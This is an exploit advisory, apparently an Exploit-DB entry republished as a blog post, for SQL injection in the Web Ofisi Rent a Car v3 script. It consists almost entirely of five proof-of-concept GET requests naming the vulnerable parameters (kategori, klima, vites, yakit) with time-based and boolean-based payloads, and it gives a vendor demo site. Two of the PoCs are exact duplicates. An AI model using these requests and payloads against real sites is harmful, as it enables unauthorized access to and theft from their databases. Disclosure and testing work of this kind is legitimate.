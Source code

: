 ```yaml
---
layout:     post
title:      "Web Ofisi Rent a Car 3 - 'klima' SQL Injection"
date:       2019-07-19 12:15
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi Rent a Car 3 - 'klima' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/rent-a-car-v3.html
# Demo Site: http://demobul.net/rentacarv3/
# Version: v3
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request:
http://localhost/[PATH]/arac-listesi.html?kategori[]=0&klima[]=1&vites[]=1&yakit[]=1
Vulnerable Parameter: kategori[] (GET)
Payload: if(now()=sysdate(),sleep(0),0)

----- PoC 2: SQLi -----

Request:
http://localhost/[PATH]/arac-listesi.html?kategori[]=i0&klima[]=1&vites[]=1&yakit[]=1
Vulnerable Parameter: klima[] (GET)
Payload: 1 AND 3*2*1=6 AND 695=695

----- PoC 3: SQLi -----

Request:
http://localhost/[PATH]/arac-listesi.html?kategori[]=i0&klima[]=1&vites[]=1&yakit[]=1
Vulnerable Parameter: vites[] (GET)
Payload: 1 AND 3*2*1=6 AND 499=499

----- PoC 4: SQLi -----

Request:
http://localhost/[PATH]/arac-listesi.html?kategori[]=i0&klima[]=1&vites[]=1&yakit[]=1
Vulnerable Parameter: vites[] (GET)
Payload: 1 AND 3*2*1=6 AND 499=499

----- PoC 5: SQLi -----

Request:
http://localhost/[PATH]/arac-listesi.html?kategori[]=i0&klima[]=1&vites[]=1&yakit[]=1
Vulnerable Parameter: yakit[] (GET)
Payload: 1 AND 3*2*1=6 AND 602=602
